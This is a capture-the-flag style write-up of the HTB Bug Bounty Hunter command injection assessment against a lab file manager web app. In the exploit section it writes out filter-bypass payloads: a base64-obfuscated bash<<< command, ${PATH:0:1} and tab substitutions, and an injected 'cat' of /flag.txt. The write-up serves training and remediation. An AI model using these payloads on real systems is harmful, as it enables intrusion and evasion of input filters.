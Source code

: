 This is a detailed write-up for the HTB Bug Bounty Hunter Certification’s skill assessments. This write-up series will treat each skill assessment as an individual penetration test, with a full explanation of a specific vulnerability, including remediation recommendations.
Command Injection Skill Assessment

Scenario:
You have been contracted to perform a penetration test for a company, and during your testing, you discover an interesting file manager web application. Since file managers often execute system commands, you are interested in testing for command injection vulnerabilities.

Use the various techniques discussed in this module to detect a command injection vulnerability and then exploit it, bypassing any filters that are in place.

Target in Scope:
94.237.xx.xxx
Recon and Analysis:

First, you want to interact with the application as a normal user to understand its functionality.

The file manager web application appears to be connected to the OS level, allowing us to view files hosted on the server.


When clicking the tmp folder, the parameter in the URL changes to to=tmp.

![1_sP63QruxRhfbTcO9YVNyXA](https://github.com/user-attachments/assets/59ef09be-f7b8-4d57-ae3a-62aecaf0b1a9)

This also happens when visiting a .txt file, with the parameter appearing as to=&view=filename.txt.

![1_J-RQt28WxAwk5Wa5-wT5CQ](https://github.com/user-attachments/assets/380f5e5b-af7d-4f72-b085-d875a704f593)

Each file and folder has several functional action buttons, such as the "copy" button.

![1_gjQ3JZfX-MGnxSe0qEu3pg](https://github.com/user-attachments/assets/7d2d989d-c1dc-40cd-80d5-59db260dfaf7)

It seems this function allows users to copy files to other directories.

![1_r5KkM70_NqJH2h7LhVrpQA](https://github.com/user-attachments/assets/daeecf1b-bf80-4078-a102-71ee641a2e89)

The file can be moved using this URL:

![1_rD7m-OmRqTgTcoTCIt09pw](https://github.com/user-attachments/assets/23ec78ec-92da-4abb-9928-638f6f414487)

Once a file is moved, the action cannot be repeated on the same file.

![1_qVTBRRDDLA6BJDUSu86tSw](https://github.com/user-attachments/assets/46c09bbc-c89c-4a1c-b950-2270bbf6c6a8)

There is also an advanced search option available next to the regular search bar.

![1_68X6VX6zfQBHoae9zy5QmA](https://github.com/user-attachments/assets/80acbefa-01e8-416c-9453-33fc2085bfd4)

![1_ZffheKduXtvwx1x9oT7tWQ](https://github.com/user-attachments/assets/0983529a-c562-45ef-bbb9-6791d4f1230d)
Attack Vector:

After testing the functional areas, we now want to target specific features and URL parameters to see if we can perform a command injection. One such area is the "move file" feature.

Below is the initial move of a file to a directory using the UI and HTTP request.

![1__9sjeuekvcmy2ap3PO5x6g](https://github.com/user-attachments/assets/94daae8f-ce9a-482b-9b92-6fbec09ea931)

![1_ncY80ky1RSacQ08pZvG0Ig](https://github.com/user-attachments/assets/2d8cddeb-4bb1-4720-a061-6bac9c63af17)
Below is the repeated action for moving the same file.

![1_tLiphvDYbtwb8ctXiJ4mcg](https://github.com/user-attachments/assets/cb117f97-8f43-4e5c-9bf3-dc0b14d97c06)

![1_Do-CEGUOvPj5x7fATCfogw](https://github.com/user-attachments/assets/3c20054b-0170-4ff5-a154-528f5eb36ddf)

We want to check if the URL parameter is vulnerable to command injection.
Command Injection Techniques:

To inject additional commands into the existing one, we can use the following operators:

![1_6RqtiecXLibfJG7bNnbggQ](https://github.com/user-attachments/assets/8e5a7ced-3d20-453b-9c21-9175d2e7fe26)

I tried injecting commands like whoami and ls into the "to" parameter. The error message displayed: "malicious request denied".

![1_AugDlPIamC-dViU1mxSZog](https://github.com/user-attachments/assets/1e147d29-cfdb-400e-9811-e61a98f5b7f0)

![1_6lfoA-aykZLJy4O0FylvfA](https://github.com/user-attachments/assets/82451731-5b66-4185-b145-1d53d404ac7b)

This indicates that basic commands are filtered. Therefore, we need to identify possible filters such as space, blacklisted characters, commands, or WAF filters.

To bypass this, I used command obfuscation with Base64 encoding.

bash<<<$(base64 -d<<<"base64 encoded OS payload")

![1_8qqHQ7Flk2Q_ta4Veh5TkA](https://github.com/user-attachments/assets/22448c0a-411a-44c7-8ff2-b9fac3dff2e9)

![1_VQa99McP4WKBTheG81c-Bg](https://github.com/user-attachments/assets/5b6d0267-d673-4229-b934-97ceb20e6007)

We successfully executed whoami and obtained the result: www-data. Next, I tested ls -la to list the files.

![1_1BxwIbTNtGgV_cLjJey8_w](https://github.com/user-attachments/assets/560881b1-453e-4746-b474-31e947411f67)

![1_y3D8SI-AzdRv-zy4NIqITA](https://github.com/user-attachments/assets/77d9db20-2325-4098-b28f-4ccd5ff13029)

Exploit:

Now that we’ve identified the attack vector by bypassing the filter, we can perform an exploit.

I attempted to view the root directory.

![1_71hBS1YyYI7UU1xOZqD4OQ](https://github.com/user-attachments/assets/e4370eb5-7f18-490b-a649-145ab6d6e897)

![1_W8IH38unw5sH16ApJBbReA](https://github.com/user-attachments/assets/cb53bf44-1a46-4127-b883-8a35560f28a5)


There are several files, including config.php and index.php. Let’s explore further.
![1_3ql0uD7UGvLZBFIr7WywkA](https://github.com/user-attachments/assets/5a87aea9-8c07-4c70-9c76-66608aca0ff1)

![1_-EU1o-wPNioFbl73qZCJ-w](https://github.com/user-attachments/assets/5bc27cde-d090-4c03-a593-a8dddc535e2d)

![1_cgdw9PtRxdIlbW2j1KB2lw](https://github.com/user-attachments/assets/b144ef9c-9cfb-4b82-b26f-096e92090e35)


I couldn’t find the target file, flag.txt, but I moved it to the tmp directory.

${PATH:0:1} = /

${IFS} = space

mv/flag.txt /var/www/html/files/tmp

mv ${PATH:0:1}flag.txt ${PATH:0:1}var${PATH:0:1}www${PATH:0:1}html${PATH:0:1}files${PATH:0:1}tmp

Base64 encoded:

bXYgJHtQQVRIOjA6MX1mbGFnLnR4dCAke1BBVEg6MDoxfXZhciR7UEFUSDowOjF9d3d3JHtQQVRIOjA6MX1odG1sJHtQQVRIOjA6MX1maWxlcyR7UEFUSDowOjF9dG1w

bash<<<$(base64%09-d<<<bXYgJHtQQVRIOjA6MX1mbGFnLnR4dCAke1BBVEg6MDoxfXZhciR7UEFUSDowOjF9d3d3JHtQQVRIOjA6MX1odG1sJHtQQVRIOjA6MX1maWxlcyR7UEFUSDowOjF9dG1w)

![1_3xa5s3hlJbbor7gk6IkI1A](https://github.com/user-attachments/assets/ae2ed837-0694-4b6f-8d3e-c9d75efe5024)

While the file was moved, I didn’t have permission to read it. However, I now know the location of the flag.txt file.

To bypass character filters, I used this payload:

%26c\a\t%09${PATH:0:1}flag.txt

&cat (horizontal tab) /flag.txt

![1_Uhd2OU1u7YJIZ6tpFZBHrA](https://github.com/user-attachments/assets/75d45b6a-43a2-4fba-b380-b1e4c7b0ae99)
Consequences:

A command injection vulnerability is one of the most severe types. It allows an attacker to execute OS-level commands on the server, potentially compromising the entire network. When a web application uses user input to execute a system command, an attacker can inject malicious commands and take control of the system.

Remediation:

To prevent command injection vulnerabilities, consider the following measures:

    Avoid using system commands in web applications.
    Implement strict input validation and sanitization.
    Configure the web server properly to minimize the risk of such attacks.

If you need my help with anything, feel free to ask: fursachi14@gmail.com

